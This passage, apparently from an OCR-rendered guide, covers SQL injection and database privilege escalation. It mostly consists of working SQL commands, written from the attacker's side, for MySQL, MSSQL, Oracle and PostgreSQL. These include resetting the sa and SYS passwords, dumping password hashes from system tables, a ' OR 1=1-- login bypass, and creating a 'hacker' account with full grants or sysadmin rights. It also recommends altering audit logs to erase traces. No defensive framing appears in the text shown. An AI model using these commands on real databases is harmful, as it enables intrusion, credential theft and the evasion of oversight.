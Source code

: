 - **MSSQL**:  
  ```sql  
  ALTER LOGIN sa WITH PASSWORD = 'new_secure_password';  
  ```  
  Changes the `sa` (system administrator) account’s password.  

- **Oracle**:  
  ```sql  
  ALTER USER sys IDENTIFIED BY new_password;  
  ```  
  Alters the `SYS` account’s credentials, which holds the highest privileges in Oracle databases.  

---

### **4. Exploiting Weak Permissions**  
If the compromised account has access to sensitive tables or stored procedures, attackers can extract credentials or modify permissions directly.  

#### **Key Targets**  
| **Database** | **Sensitive Table/Procedure**       | **Example Query**                                                                 | **Purpose**                                                                 |  
|--------------|-------------------------------------|----------------------------------------------------------------------------------|---------------------------------------------------------------------------|  
| **MySQL**    | `mysql.user`                        | ```sql SELECT User, authentication_string FROM mysql.user; ```                   | Steals hashed passwords of all users.                                     |  
| **MSSQL**    | `sys.sql_logins`                    | ```sql SELECT name, password_hash FROM sys.sql_logins WHERE name = 'sa'; ```     | Retrieves the `sa` account’s password hash for cracking.                   |  
| **Oracle**   | `DBA_USERS`                         | ```sql SELECT username, password FROM dba_users WHERE username = 'SYS'; ```      | Accesses the `SYS` account’s password (if stored in plaintext).             |  
| **PostgreSQL**| `pg_authid`                        | ```sql SELECT rolname, rolpassword FROM pg_authid WHERE rolname = 'postgres'; ``` | Extracts the `postgres` superuser’s password hash.                         |  

**Post-Exploitation Actions**:  
- **Bypass Authentication**: Use stolen credentials to log in directly as an admin.  
- **Modify Audit Logs**: Delete or alter logs to erase traces of the attack.  

---

### **Example Workflow**  
1. **Initial Access**: Exploit a vulnerable login form with:  
   ```sql  
   ' OR 1=1--  
   ```  
   to bypass authentication and gain low-privilege access.  

2. **Privilege Check**:  
   - In MySQL: `SHOW GRANTS;` reveals the current user has `SELECT` and `INSERT` permissions.  
   - In MSSQL: `SELECT IS_SRVROLEMEMBER('sysadmin');` confirms non-admin status.  

3. **Escalate Privileges**:  
   - **MySQL**:  
     ```sql  
     CREATE USER 'hacker'@'%' IDENTIFIED BY 'password';  
     GRANT ALL PRIVILEGES ON *.* TO 'hacker'@'%' WITH GRANT OPTION;  
     ```  
   - **MSSQL**:  
     ```sql  
     EXEC sp_addsrvrolemember 'hacker', 'sysadmin';  
     ```  
